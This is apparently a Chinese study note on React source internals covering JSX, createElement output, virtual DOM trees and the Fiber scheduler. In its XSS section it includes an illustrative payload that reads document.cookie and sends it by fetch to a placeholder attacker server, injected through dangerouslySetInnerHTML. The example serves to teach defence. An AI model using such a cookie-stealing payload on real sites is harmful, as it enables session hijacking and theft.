



# React 源码

想要深入掌握 React，理解它的实现原理也是必要的。

理解 React 实现原理的最好方式就是写一个 Mini React。

## JSX

我们在组件里通过 JSX 描述页面。



- JSX是什么？
JSX就是能在JavaScript里直接写HTML标签的语法糖。
- 优势
    - 直观且声明式
    看到的代码结构几乎就是最终渲染出的 DOM 结构。
    用 JSX 声明用户列表的结构，由 React 处理底层渲染逻辑
    ```
    <div>
  <h2>用户列表</h2>
  {users.map(user => <p key={user.id}>{user.name}</p>)}
</div>
    ```
    - 组件化与抽象能力
    JSX 鼓励将 UI 拆分为独立的、可复用的组件。
    它可以轻松地被组合、嵌套和传递，极大地提高了代码的复用性和可维护性。

    - JavaScript 全能力
    在大括号内可直接使用所有 JS 表达式（变量、函数、逻辑），无需学习新模板语法。

    - 虚拟 DOM 优化 
    生成的轻量级 JS 对象便于 React 高效计算差异，最小化真实 DOM 操作以提升性能。

    - 工具链支持强
    享受现代编辑器的智能补全、语法高亮及自动化重构等完整开发体验。

    - 防止注入攻击 (XSS)
    JSX 默认会对嵌入的值进行转义。

    如果你在 JSX 中插入用户输入的内容，它会自动被转换为字符串，从而有效防止跨站脚本攻击 (XSS)，除非你显式地使用 dangerouslySetInnerHTML
    demo1
    - 基础示例：JSX 自动转义防 XSS
    - 显式使用 dangerouslySetInnerHTML（会触发 XSS 风险）

    XSS 的全称是 Cross-Site Scripting。 之所以不直接叫 CSS（避免和层叠样式表 Cascading Style Sheets 混淆），所以简写为 XSS。

    核心是攻击者注入并执行恶意脚本，危害用户安全。

    得到cookie, 盗号支付

    ```
    // 模拟攻击者注入的恶意脚本（存储型/反射型XSS场景）
const maliciousScript = `
  <script>
    // 1. 获取当前用户的登录Cookie（包含身份凭证）
    const userCookie = document.cookie;
    // 2. 把Cookie发送到攻击者的服务器（跨域请求）
    fetch('https://黑客的恶意服务器.com/steal', {
      method: 'POST',
      body: JSON.stringify({ cookie: userCookie }),
      headers: { 'Content-Type': 'application/json' }
    });
  <\/script>
`;

// 不安全的渲染方式（触发XSS）
function UnsafeComment() {
  return (
    <div dangerouslySetInnerHTML={{ __html: maliciousScript }} />
  );
}
    ```

### JSX 底层

-  图中啥意思？

jsx 会被 babel 或者 tsc 等编译器编译成 render function，也就是类似 React.createElement 这种：

React.createElement 是 JSX 语法在编译后转换成的底层 JavaScript 函数，用于创建描述 UI 结构的轻量级虚拟 DOM 对象（React 元素）。

```
{
  "type": "ul",
  "key": null,
  "props": {
    "children": [
      {
        "type": "li",
        "key": "0",
        "props": { "children": "第一项内容" }
      },
      {
        "type": "li",
        "key": "1",
        "props": { "children": "第二项内容" }
      }
    ]
  }
}
```

```
{
  "type": "ul",
  "key": null,
  "props": {
    "children": [
      {
        "type": "li",
        "key": "0",
        "props": { "children": "第一项内容" } 
      },
      {
        "type": "li",
        "key": "1",
        "props": { 
          "children": "第二项已更新", 
          "className": "active" 
        }
      }
    ]
  }
}
```

- babel 尝试

https://babeljs.io/repl

由 babel、tsc 等编译工具自动引入一个 react/jsx-runtime 的包

然后 render function 执行后产生 React Element 对象，也就是常说的虚拟 dom。



也就是这样的流程：


- vdom （React Element）是一个通过 chilren 串联起来的树。虚拟DOM树。


- fiber 结构


之后 React 会把 React Element 树转换为 fiber 结构，它是一个链表

- 为什么需要fiber?
    老版 React 渲染是一口气从头跑到尾：
    一旦开始更新 DOM，JS 就霸占主线程。
    浏览器想渲染页面、响应用户点击、输入都得排队等

    数据一大、组件一多，就会卡顿、掉帧、输入延迟

    这就叫：JS 长任务阻塞浏览器渲染。

    - fiber

    把渲染拆成一小段一小段

    渲染一段就让出主线程给浏览器

    能暂停、继续、插队

    优先保证：点击、输入、滚动不卡

    再慢慢做渲染更新

    以前 React 同步递归渲染，一旦开始就霸占主线程，会阻塞页面渲染和用户交互，导致卡顿。Fiber 就是把渲染拆成可中断的小任务，实现优先级调度，优先响应用户操作，再异步更新，让页面更流畅。

- fiber 概念

    Fiber 就是 React16 后的新调度架构，把渲染拆成小任务，可中断、可恢复、可插队。优先响应用户交互，再慢慢渲染页面，避免 JS 阻塞导致页面卡顿，让界面更流畅。

    


React Element 只有 children 属性来链接父子节点，但是转为 fiber 结构之后就有了 child、sibling、return 属性来关联父子、兄弟节点。


